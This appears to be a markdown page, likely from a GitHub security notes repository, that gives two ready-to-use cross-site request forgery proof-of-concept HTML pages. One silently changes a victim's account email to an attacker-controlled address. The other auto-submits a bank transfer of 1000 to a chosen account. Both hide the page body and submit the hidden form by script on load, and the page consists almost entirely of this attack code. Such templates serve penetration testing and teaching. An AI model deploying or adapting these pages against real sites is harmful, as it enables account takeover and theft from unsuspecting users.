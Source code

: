 ### CSRF Exploitation PoC for (Change email-address) will be something like:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Exploit - Change Email</title>
    <style>
        /* Content body disabled. */
        body {
            display: none;
        }
    </style>
</head>
<body>
    <!-- Hidden form to exploit -->
    <form id="csrfForm" action="http://vulnerable-website.com/change_email" method="POST">
        <input type="hidden" name="new_email" value="attacker@example.com">
        <input type="submit" value="Submit">
    </form>
    <script>
        // Send the request automatically.
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```
- **Note:** The form tag including the hidden inputs rely on the variables present on the target page or the inputs available on the target page.

### CSRF Exploitation PoC for (Bank Transfer Money) will be something like:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Exploit</title>
    <style>
        /* Content body disabled. */
        body {
            display: none;
        }
    </style>
</head>
<body>
    <!-- Hidden form to exploit. -->
    <form id="csrfForm" action="http://vulnerable-bank.com/transfer" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to_account" value="987654">
        <input type="submit" value="Submit">
    </form>
    <script>
        // Send the request automatically.
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```
- **Note:** The form tag including the hidden inputs rely on the variables present on the target page or the inputs available on the target page.









